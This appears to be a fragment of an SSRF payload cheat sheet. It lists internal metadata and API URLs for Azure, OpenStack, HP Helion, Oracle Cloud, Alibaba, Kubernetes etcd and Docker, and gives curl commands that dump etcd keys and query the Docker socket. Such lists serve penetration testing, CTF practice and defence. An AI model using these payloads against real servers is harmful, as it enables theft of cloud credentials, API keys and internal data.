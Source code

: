 - SSRF URL for Azure

Limited, maybe more exists? [https://azure.microsoft.com/en-us/blog/what-just-happened-to-my-vm-in-vm-metadata-service/](.)

[http://169.254.169.254/metadata/v1/maintenance](.)

Update Apr 2017, Azure has more support; requires the header “Metadata: true” [https://docs.microsoft.com/en-us/azure/virtual-machines/windows/instance-metadata-service](.)

[http://169.254.169.254/metadata/instance?api-version=2017-04-02](.)

[http://169.254.169.254/metadata/instance/network/interface/0/ipv4/ipAddress/0/publicIpAddress?api-version=2017-04-02&format=text](.)

- SSRF URL for OpenStack/RackSpace
(header required? unknown)

[http://169.254.169.254/openstack](.)

- SSRF URL for HP Helion
(header required? unknown)
[http://169.254.169.254/2009-04-04/meta-data/](.)

- SSRF URL for Oracle Cloud

[http://192.0.0.192/latest/](.)

[http://192.0.0.192/latest/user-data/](.)

[http://192.0.0.192/latest/meta-data/](.)

[http://192.0.0.192/latest/attributes/](.)

-SSRF URL for Alibaba

[http://100.100.100.200/latest/meta-data/](.)

[http://100.100.100.200/latest/meta-data/instance-id](.)

[http://100.100.100.200/latest/meta-data/image-id](.)

- SSRF URL for Kubernetes ETCD

Can contain API keys and internal ip and ports
curl -L [http://127.0.0.1:2379/version](.)

curl [http://127.0.0.1:2379/v2/keys/?recursive=true](.)

-SSRF URL for Docker

[http://127.0.0.1:2375/v1.24/containers/json](.)

Simple example

docker run -ti -v /var/run/docker.sock:/var/run/docker.sock bash

bash-4.4# curl --unix-socket /var/run/docker.sock [http://foo/containers/json](.)

bash-4.4# curl --unix-socket /var/run/docker.sock [http://foo/images/json](.)

- SSRF URL for Rancher
curl http://rancher-metadata/<version>/<path>

#### Further reading 

- [Orange,New-Era of SSRF](https://cheatsheetseries.owasp.org/assets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet_Orange_Tsai_Talk.pdf)

- [CTF-BIBLe,SSRF](https://github.com/k0imet/CTFs/tree/main/CTF-BIBLE/Web/SSRF)
